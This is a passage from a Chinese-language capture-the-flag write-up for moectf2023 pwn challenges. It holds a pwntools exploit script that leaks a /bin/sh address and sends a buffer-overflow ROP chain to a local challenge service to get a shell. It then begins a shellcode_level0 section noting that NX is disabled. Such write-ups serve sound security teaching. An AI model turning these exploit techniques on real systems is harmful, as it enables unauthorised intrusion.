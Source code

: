 

exp：

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

pop_rdi = 0x40168e
action_addr = 0x401296
sh.sendline(b'1 9 1 9 8 1 0')
sleep(2)
sh.recvuntil(b'0x')
binsh_addr = int(sh.recvuntil(b'\n').strip(), 16)  # 因为地址的数字不确定，所以这样接收
# print(sh.recv())
print(hex(binsh_addr))
pad = b'a' * 0x48 + p64(pop_rdi) + p64(binsh_addr) + p64(action_addr) # 调用action
sh.sendline(pad)
sh.interactive()
```



## shellcode_level0

首先程序没有打开NX保护，可以执行栈上的代码。用IDA打开可以看到，程序将buf读入后直接跳转到了buf的首地址执行：

![image-20230822214621728](./moectf2023-pwn-wp.assets/image-20230822214621728.png)
